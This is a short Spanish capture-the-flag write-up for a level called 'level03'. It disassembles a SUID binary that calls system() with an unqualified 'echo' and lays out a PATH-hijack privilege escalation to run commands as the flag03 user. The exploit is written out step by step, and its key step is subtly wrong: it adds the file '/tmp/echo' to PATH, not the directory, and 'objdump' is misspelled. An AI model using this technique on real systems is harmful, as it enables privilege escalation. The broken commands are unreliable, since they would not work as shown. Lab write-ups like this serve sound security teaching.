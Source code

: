 ### LEVEL03
- ls -la 
    ```bash
        dr-x------ 1 level03 level03  120 Mar  5  2016 .
        d--x--x--x 1 root    users    340 Aug 30  2015 ..
        -r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
        -r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
        -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
        -r-x------ 1 level03 level03  675 Apr  3  2012 .profile
    ```

- El archivo level03 tiene permisos SUID por lo cual cuando se ejecuta como si fuera el usuario flag03

- objdup -D level03
    ```asm
        080484a4 <main>:
        80484a4:	55                   	push   %ebp
        80484a5:	89 e5                	mov    %esp,%ebp
        80484a7:	83 e4 f0             	and    $0xfffffff0,%esp
        80484aa:	83 ec 20             	sub    $0x20,%esp
        80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
        80484b2:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
        80484bb:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        80484bf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484c3:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484c7:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484cb:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484cf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484d3:	89 04 24             	mov    %eax,(%esp)
        80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
        80484db:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484e3:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484eb:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484ef:	89 04 24             	mov    %eax,(%esp)
        80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
        8048503:	c9                   	leave
    ```
- vemos que se llama a system:
    ```asm
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
   ``` 
- Con gdb podemos ver el contenido de el parametro que se pasa a la función system()
    ```asm
        gdb x/s 0x80485e0
        0x80485e0:	"/usr/bin/env echo Exploit me"
    ```
- Vemos que ejecuta echo sin ruta lo que permite hacer un secuestro de path para poder ejecutar como usuario flag03 cualquier comando
    ```bash
        echo "/bin/getflag" > /tmp/echo
        export PATH=/tmp/echo:$PATH
        chmod 777 /tmp/echo
        ./level03
    ```

